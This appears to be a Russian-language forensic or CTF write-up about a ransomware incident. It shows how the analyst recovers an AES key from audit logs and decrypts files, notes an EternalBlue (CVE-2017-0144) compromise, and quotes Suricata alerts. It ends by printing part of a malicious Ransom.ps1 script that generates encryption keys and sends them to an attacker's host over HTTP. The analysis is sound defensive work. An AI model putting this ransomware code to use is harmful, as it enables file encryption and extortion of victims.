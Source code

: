 Для расшифровки мы не обойдемся ключа и вектора инициализации. Для этого изучим **/var/log/audit/audit.log** 

Сделаем поиск команды openssl
![](https://i.imgur.com/pyxR6Ct.png)




Получив необходимые ключ и вектор инициализации расшифруем все зашифрованные файлы последовательностью команд:
```bash
mkdir encrypted_files
for j in `find . | grep encr`; do cp $j ./encrypted_files; done
cd encrypted_files
for i in *; do cat $i | base64 -d > $i.b64; done
for i in *.b64; do openssl aes-256-cbc -d -pass pass:EC7F87F0FA -iv 594A90A5256C289D3B01EA7E2A5D7F28  -in $i -out $i.dec; done
```

Получаем содержимое файла 42FLAG.txt:
`Edimus, ut vivamus, non vivimus, ut edamus.`
# 10.20.239.6
Этот сервер имеет уязвимость в Windows-реализации протокола SMB (**CVE-2017-0144**), поэтому хакером был успешно использован эксплоит под кодовым именем **Eternalblue**.

Он получил доступ как **NT AUTHORITY\SYSTEM**

Помимо шифрования файлов, злоумышленник **поменял пароль к учетной записи администратора**, о чем сигнализирует невозможность подключения к данному компьютеру по паролю, полученному брутом хэшей из команды hashdump

Также злоумшленник зашифровал файлы на системе пользователя
В логах Suricata IDS находим:
```
03/05/2022-15:14:36.655380  [**] [1:2027259:3] ET INFO Dotted Quad Host PS1 Request [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 10.20.239.6:57571 -> 10.20.200.50:80
03/05/2022-15:14:36.769932  [**] [1:4000002:1] Microsoft CryptoAPI usage in downloaded code (Possible Ransomware attack) [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 10.20.200.50:80 -> 10.20.239.6:57571
```

Означает, что на машину **10.20.239.6** был загружен Ransom.ps1

Содержание + **комментарии** по работе скрипта:
```powershell
set-strictMode -version 2.0
function Ransom
{

Param(
    [Parameter(Position = 0)]
    [String]
    $IP='127.0.0.1'
    )

    $aesManaged=new-object "System.Security.Cryptography.AesManaged";
    $aesManaged.Mode=[System.Security.Cryptography.CipherMode]::CBC;
    $aesManaged.Padding=[System.Security.Cryptography.PaddingMode]::Zeros;
    $aesManaged.BlockSize=128;
    $aesManaged.KeySize=256;
    $aesManaged.GenerateKey(); # иницилизация объекта и вызов метода генерации ключа
    $IV =  [System.Convert]::ToBase64String($aesManaged.IV);
    $key = [System.Convert]::ToBase64String($aesManaged.Key);

    $URL="http://$IP/key=$Key&iv=$IV&pc=$env:computername";
    try { Invoke-WebRequest $URL } catch {
```